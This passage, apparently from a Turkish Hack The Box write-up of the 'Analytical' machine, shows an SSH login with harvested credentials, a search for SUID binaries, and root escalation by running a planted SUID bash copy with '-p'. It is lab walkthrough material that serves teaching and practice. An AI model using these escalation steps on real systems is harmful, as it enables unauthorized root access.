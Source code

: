 ```text title="Output" hl_lines="13 14"
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

Elde ettiğim kullanıcı adı ve parola bilgisi ile reverse shell dışında bir SSH bağlantısı gerçekleştirdim:

```bash
ssh metalytics@analytical.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat user.txt
```

## Root Flag

Yanlış yapılandırılmış SUID etiketli çalıştırılabilir bir dosya olup olmadığını öğrenmek amacıyla aşağıdaki aramayı gerçekleştirdim:

```bash
find / -perm /4000 -exec ls -l {} \; 2> /dev/null
```

```text title="Output" hl_lines="1"
-rwsr-xr-x 1 root metalytics 1396520 Jan 15 14:38 /var/tmp/bash
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 232416 Apr  3  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

İlk bulunan sonuç çok umut vericiydi. Bu sebeple bu dosyayı, [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) sayfasında bahsedildiği şekilde çalıştırdım (privileged mode) ve bu sayede `root` kullanıcısı olabildim:

```bash
/var/tmp/bash -p
```

Yüksek yetkilere sahip shell içerisinde aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat /root/root.txt
```
